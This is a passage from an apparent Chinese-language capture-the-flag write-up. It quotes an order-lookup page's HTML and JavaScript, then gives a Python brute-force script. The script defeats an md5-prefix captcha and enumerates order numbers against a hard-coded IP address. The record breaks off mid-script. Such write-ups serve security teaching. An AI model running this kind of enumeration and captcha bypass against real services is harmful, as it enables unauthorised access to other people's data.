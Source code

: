 ```
                &lt;br&gt;
                如有任何问题，&lt;a href="https://www.google.co.jp/search?q=md5%20%E7%A2%B0%E6%92%9E"&gt;请联系&lt;/a&gt;
            &lt;/div&gt;
        &lt;/div&gt;


&lt;/body&gt;
&lt;/html&gt;
&lt;script src="js/jquery.min.js"&gt;&lt;/script&gt;
&lt;script type="text/javascript"&gt;
function report()`{`
    $.post('api.php?action=report',`{`'TxtTid':$('#TxtTid').val(),'code':$('#code').val()`}`,function(data)`{`
        alert(data['msg']);
    `}`);
`}`
$('#report').click(report);
&lt;/script&gt;
```

发现是一个订单查询系统，由于题目放出提示，此题不需要注入，于是猜想是找到正确的订单号<br>
随机写了一个爆破脚本

```
import requests
import hashlib
import re
def md5(a):
    b = hashlib.md5(a).hexdigest()
    return b
url = "http://120.132.95.234/5a560e50e61b552d34480017c7877467info.php"

header = `{`
"Host":"www.tmvb.com",
"Cache-Control":"max-age=0",
"Upgrade-Insecure-Requests":"1",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36",
"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
"referer":"www.DWW.COM",
"Accept-Language":"ja",
"If-None-Match":'''"19-56ae7b5677840"''',
"If-Modified-Since":"Sat, 28 Apr 2018 12:24:57 GMT",
"Connection":"close"
`}`
def getcode(codeneed):
    for i in xrange(1,999999999):
        if md5(str(i))[0:6] == codeneed:
            return i
for dingdan in range(9599,1000,-1):
    try:
        r = requests.get(url=url, headers=header,timeout=10)
        my_cookie = r.headers['Set-Cookie'][10:36]
        code_conetent = re.findall('&lt;p&gt;.*?&lt;/p&gt;', r.content)[0][30:36]
        my_code = getcode(code_conetent)
        cookie = `{`
            "PHPSESSID": my_cookie
        `}`
        data = `{`
            "TxtTid": dingdan,
            "code": my_code
        `}`
        try:
```